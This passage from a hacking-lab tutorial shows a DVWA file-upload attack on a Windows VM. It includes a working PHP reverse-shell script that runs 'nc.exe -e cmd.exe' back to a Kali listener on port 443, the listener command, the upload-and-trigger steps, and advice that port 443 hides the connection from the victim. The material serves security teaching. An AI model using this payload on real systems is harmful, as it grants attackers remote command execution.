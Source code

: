 - List out the content of `/usr/share/webshells/php` directory
- View the script php-reverse-shell.php. To use this script, the hacker will change the `$ip` and `$port` variables to his IP address and the port where he has a process like Netcat listening.
	- If he manages to get this script to run on the target, the script will connect back to his computer on the specified port, and run the commands in `$shell`, and giving th hacker `/bin/sh` interactive shell.
	- However, this script only works on **Linux targets**. Our DVWA is running on Windows, so we need a reverse shell that will work on Windows targets.
	- You can find such script online, though, the Windows User Account Control (UAC) security feature may prevent such scripts from running on the target.
	- To get around Windows User Account Control, the hacker may upload a network connection software like Netcat for Windows, and then upload a script to run the Netcat software.
- Download Netcat for Windows and extract the zip file. 
	- If asked for password, enter "nc".
	- The executable file we want is called "nc.exe"
- Create the following script. You can name the file `nc-reverse-shell.php`
```php
<?php

  header('Content-type: text/plain');

  $ip = "192.168.2.128"; //change this to your Kali IP

  $port = "443"; //or change this to any port number not in use on Kali

  $cmd = "nc.exe -e cmd.exe ".$ip." ".$port;

  echo "\nExecuting : ".$cmd."\n";

  $output = system($cmd);

?>
```

- In a terminal, run Netcat to start listening on Port 443.
```linux
sudo nc -l -p 443
```

- Browse to DVWA and ensure security level is low
- Click on File Upload and upload both `nc.exe` and `nc-reverse-shell.php`
- Now, browse to the path of the uploaded `nc-reverse-shell.php` file.
```linux
http://192.168.2.130/dvwa-master/hackable/uploads/nc-reverse-shell.php
```
- If you switch to the terminal where Netcat is running, you will be at the Command Prompt of the Win10 and you can run commands on the target.

**Win10 VM**
- Use Netstat to see the established connections
	- You will see there is an established connection to your Kali on port 443. 
	- As port 443 is normally used for web servers, and if the victim is browsing other websites, he will see many other connections to other IP addresses on port 443.
	- Hence he may not think that this particular connection is suspicious.
